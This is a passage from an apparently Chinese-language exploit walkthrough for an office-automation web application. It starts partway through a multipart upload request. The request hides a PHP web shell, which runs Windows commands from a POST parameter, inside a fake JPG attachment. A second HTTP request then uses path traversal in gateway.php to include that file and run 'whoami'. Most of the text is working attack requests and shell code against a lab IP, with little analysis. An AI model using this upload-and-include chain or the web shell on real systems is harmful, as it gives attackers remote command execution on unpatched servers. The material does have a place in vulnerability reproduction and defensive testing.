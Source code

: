 ```
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>

------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

得到200状态码，获得图片名称：`1354502767.jpg`

![image-20210409132616556](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409132616556.png)

```
+OK [vm]252@2104_2141129852|jpg|0[/vm]
```



#### 文件包含图片马

前台文件包含漏洞：修改数据包，包含前面上传的jpg木马文件，即可实现执行任意命令。

此处执行命令“net user”

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.163.146:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: textml,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

json={"url":"/general/../../attach/im/2104/2141129852.jpg"}&cmd=whoami
```
